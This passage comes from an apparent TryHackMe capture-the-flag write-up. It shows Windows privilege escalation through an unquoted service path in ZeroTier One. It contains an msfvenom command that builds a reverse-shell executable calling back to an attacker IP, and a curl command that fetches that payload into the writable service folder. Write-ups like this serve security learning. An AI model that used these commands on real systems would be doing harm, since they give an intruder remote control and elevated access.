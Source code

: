{: .nolineno}
{: .nolineno}
Now I have to collect some data for bloodhound so I will be uploading the `SharpHound.exe` Tool that will collect the data in a zip file that will be transferred to Attacker machine.

I got nothing while looking into bloodhound so I uploaded <span style="color:#61ffe5">winpeas.exe</span> in to the system and ran it and got this ->
![Image](Pasted%20image%2020240223160222.png)
_Unquoted Service path vulnerability_
I can exploit this lets try to create a payload using msfvenom ->
```bash
┌──(kali🔥kali)-[~/Downloads/Tryhackme/Enterprise]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.14.72.139 LPORT=445 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

┌──(kali🔥kali)-[~/Downloads/Tryhackme/Enterprise]
└─$ mv shell.exe Zero.exe                      
```
{: .nolineno}
{: .nolineno}
I also checked the permissions of this service like this ->
```powershell
get-Acl 'C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe'
```
{: .nolineno}
{: .nolineno}
![Image](Pasted%20image%2020240223162013.png)
I can write it so lets include our payload without any hesitation 🔽
```powershell
PS C:\Users\bitbucket\Desktop> cd 'C:\Program Files (x86)\Zero Tier\'
cd 'C:\Program Files (x86)\Zero Tier\'
PS C:\Program Files (x86)\Zero Tier> dir
dir


    Directory: C:\Program Files (x86)\Zero Tier


Mode                LastWriteTime         Length Name                                                                                 
----                -------------         ------ ----                                                                                 
d-----        3/14/2021   6:08 PM                Zero Tier One                                                                        


PS C:\Program Files (x86)\Zero Tier> curl http://10.14.72.139/Zero.exe -o Zero.exe
curl http://10.14.72.139/Zero.exe -o Zero.exe
PS C:\Program Files (x86)\Zero Tier> dir
dir


    Directory: C:\Program Files (x86)\Zero Tier


Mode                LastWriteTime         Length Name                                                                                 
----                -------------         ------ ----                                                                                 
```